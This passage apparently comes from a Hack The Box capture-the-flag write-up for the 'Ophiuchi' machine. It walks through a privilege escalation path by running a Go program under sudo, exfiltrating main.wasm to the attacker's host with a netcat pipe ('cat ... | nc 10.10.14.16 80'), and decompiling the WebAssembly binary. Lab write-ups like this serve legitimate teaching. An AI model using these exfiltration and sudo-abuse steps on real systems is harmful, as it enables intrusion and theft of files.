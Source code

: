 ```default
admin@ophiuchi:~$ find / -name main.wasm 2>/dev/null
/opt/wasm-functions/main.wasm
/opt/wasm-functions/backup/main.wasm
admin@ophiuchi:~$ ls -la /opt/wasm-functions/main.wasm
-rwxrwxr-x 1 root root 1479371 Oct 14  2020 /opt/wasm-functions/main.wasm
admin@ophiuchi:~$
```

```default
admin@ophiuchi:/opt/wasm-functions$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Not ready to deploy
admin@ophiuchi:/opt/wasm-functions$ 
```

```default
admin@ophiuchi:/opt/wasm-functions/backup$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Not ready to deploy
admin@ophiuchi:/opt/wasm-functions/backup$ 
```

## Analyzing `main.wasm`

Both `main.wasm` files on the system did not result in the else statement found in `index.go` to be executed. This means we will have to modify one of the `main.wasm` files and run the program from a directory we have write permissions to. We can start by decompiling `main.wasm` in order to gain more insight on the execution of the program. Since the `index.go` file is in the same directory as `/opt/wasm-functions/main.wasm` we will go with that one. The next step is to send the file back to our attacker machine in order to further analyze it. 

```default
admin@ophiuchi:~$ cat /opt/wasm-functions/main.wasm | nc 10.10.14.16 80
admin@ophiuchi:~$ 
```

```default
kali@kali:~/Documents/CTF/HTB/Machines/Ophiuchi$ nc -nvlp 80 > main.wasm
listening on [any] 80 ...
connect to [10.10.14.16] from (UNKNOWN) [10.10.10.227] 42436
^C
kali@kali:~/Documents/CTF/HTB/Machines/Ophiuchi$ 
```

To decompile the program we will be using the WebAssembly Binary Toolkit (WABT). This tool provides several commands to convert to and from WebAssembly. Using the command `wasm-decopmile`, we can decompile the binary WebAssembly file into a C-like program. 

```default
kali@kali:~/Documents/CTF/HTB/Machines/Ophiuchi$ wasm-decompile main.wasm
export memory memory(initial: 16, max: 0);

global g_a:int = 1048576;
export global data_end:int = 1048576;
export global heap_base:int = 1048576;

table T_a:funcref(min: 1, max: 1);

export function info():int {
  return 0
}

kali@kali:~/Documents/CTF/HTB/Machines/Ophiuchi$ 
```
